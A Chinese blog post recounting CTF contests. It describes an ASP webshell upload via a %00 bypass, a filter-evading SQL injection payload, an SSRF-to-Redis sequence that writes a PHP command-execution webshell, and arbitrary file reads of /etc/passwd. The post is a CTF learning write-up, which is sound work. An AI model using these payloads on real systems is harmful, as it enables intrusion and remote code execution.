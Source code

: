 ```yaml
---
layout: post
title: CCTF_DCTF_XDCTF的收获
date: 2017-10-02
categories: CTF
---
```


### CCTF

嘛，CCTF线上已经忘记了，当时的Writeup也忘记保存了。只记得做了几个Web，然后逆向什么的队友带飞（感谢哒哒哒哒哒以及二进制大佬）。

线下怎么说呢，第一次参加渗透版线下，主办方给了三个不同的ip，每个ip下有三层网络。Emmm...我觉得对于我们这种弱鸡一层就够了。ip1没有web服务器，只有一个22端口和一个奇怪的端口。队友说奇怪的端口是一个什么服务（忘记了），进了1的内网可以直接访问进1。ip2是一个web服务器，应该是一个商城，没记错的话。各种找漏洞利用点。robots写着站长英语不好，所以没有写。后来脑洞大开，想后台地址会不会是houtai之内的中文后台名，结果还真猜对了。后来发现后台有个越权，可以不登陆直接修改礼物信息，addlipin.asp。这里面可以直接上传图片等。于是乎%00绕过，%00记得使用的URL编码。成功上传一个asp小马，然后小马上传大马。大马搜索关键字有flag的文件。成功找到2个flag。可是还有个数据库里的flag，400分。没拿到。这道题很奇怪，各种提权都失败。cmd.exe传了也没用。控制命令几乎一个没有。结果我队一直认为必须想办法提权，或者自己加入cmd的命令写注册表开启3389。然后找到flag（asp编码能力太差）并进入ip1且可以进入下层网络。

emmm...结果就是，卡住太久，导致ip3没有做完，ip3只找到一个flag，卡在后台登录界面，后台登录赛后听说有注入，不过自己试的时候完全没发现啊。于是大佬们注入的注入，爆破密码的爆破密码，唯独我拿了个国外字典跑了半天没跑出来放弃了。赛后听说密码是admin123，心里很崩溃，因为自己试了adminadmin\admin123456\admin1234等，就是没尝试admin123。。。不然又能拿到flag。还能往ip1或者下层网络继续渗透。。。

所以，因为死磕ip2的提权太久，从第6降到了第12，成功拿到线上三等奖（摊手）。对了，还有个比赛时的趣事，好像因为ip3的界面留下了一个版权信息，于是我加了版权信息留下的qq，以为是主办方的人，让我们社工一波。跑过去社工一下，发现根本不是！而是真的cms的厂商。。。尴尬，和人尬聊。

总结：字典要强大，不要死磕（虽然死磕是个好习惯）。工具、字典什么的都要提前准备好。还是要多打多做积累经验才是王道。

### DCTF

嘛，被虐的体无完肤。junior的题凭什么最多才5point，一般都1、2point。还特么很难。web1是一个SQL注入，源代码泄露。拿到源代码。

	<?php

	$db  = mysqli_connect('localhost','root','root','test');
	
	$id  = @$_GET['id'];
	$key = $db->real_escape_string(@$_GET['key']);
	//$key = @$_GET['key'];
	
	if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
	    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected
	
	$query = "SELECT `id`,`name`,`key` FROM `user` WHERE `id` = $id AND `key` = '".$key."' ";
	echo $query;
	$q = $db->query($query);
	
	if($q->num_rows) {
	    echo '<h3>Users:</h3><ul>';
	    while($row = $q->fetch_array()) {
	        echo '<li>'.$row['name'].'</li>';
	    }
	
	    echo '</ul>';
	} else {
	    die('<h3>Nop.</h3>');
	}
	
源代码如上。id正则过滤很多，看着头大。key没有正则过滤但是有一个real_escape_string()。开始以为必须要绕过key，于是各种尝试宽字节无果，然后想办法设置编码为有问题的编码无果。毕竟sql语句拼接就这样，没地方可拼。后来实在没有办法，id的正则丢进正则测试工具，所有符号打一遍，留下没被过滤的符号看看。emmm....事后发现的关键有`;``0``<``>``%`。

当时想到`id=0;`截断语句，然后插入新的语句再注释掉后面的。无果。后来发现`id=0<>true;%00`;与%00缺一不可。没有`;`会造成语句没有结束继续等待的sql语法错误，没有`%00`后面的语句会被执行造成sql语法错误。

web2首先被导向有一个flag.php，很明显要得到它，直接到index.php看看是什么，发现是一个httpbin web应用。

![1](/images/posts/dctf/1.png)

可以选择POST、GET请求，URL进行了过滤，不允许localhost、127.0.0.1等域名。Data反而似乎没什么限制。这个会以你选择的请求方式请求一次你输入的URL，并将简单的HTTP报文返回。开始以为能导致命令执行，尝试多次，无果。返回URL错误。后来大佬表示这是一个CSRF、MD5碰撞。这道题有两个思路，CSRF是通过请求http://foo@127.0.0.1@foo/，欺骗DNS绕过URL的检测。然后在端口6379上发现返回。猜测是redis的默认端口。于是改为POST请求发送Data。Data中写redis的命令，往服务器写入shell.php。

	CONFIG set dir /var/www/sandbox
	CONFIG set dbfilename shell.php
	SET a '<?=`$_GET[1]`?>'
	SAVE

POST上去后，服务器返回如下：

	-ERR unknown command 'POST'
	-ERR unknown command 'Host:'
	-ERR unknown command 'Authorization:'
	-ERR unknown command 'Accept:'
	-ERR unknown command 'Content-Length:'
	-ERR unknown command 'Content-Type:'
	+OK
	+OK
	+OK

于是访问shell.php即可拿到flag.php

### XDCTF

嘛，web3的index.php会通过参数file打开index.html和flag.html。flag.html只有你什么都找不到这样的信息，然后目录扫描什么的又得不到信息。不过惊喜的是file可以得到index.php自己，在注释里看到了所有的源代码。于是尝试文件任意读取，可是居然找不到flag.php？？？？？喵喵喵？？？好吧，找到一个.DS_Store。可能flag的名字就在里面吧，于是下载下来解开查看目录，空的？？？喵喵喵？？？没办法，只有查看敏感文件如/etc/passwd，没有有用的信息，/etc/hosts。在hosts找到了这些。

	127.0.0.1 localhost
	::1 localhost ip6-localhost ip6-loopback
	fe00::0 ip6-localnet
	ff00::0 ip6-mcastprefix
	ff02::1 ip6-allnodes
	ff02::2 ip6-allrouters
	172.18.0.3 ecba35241264
	
猜测是扫描C段找到172.18.0.3，然后就可以拿到权限或者找到flag。然而服务器日常宕机。扫描不出来。。。卡死在这一步。

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [CCTF_DCTF_XDCTF的收获](http://RoyTse.github.io/2017/10/CCTF_DCTF_XDCTF的收获/)  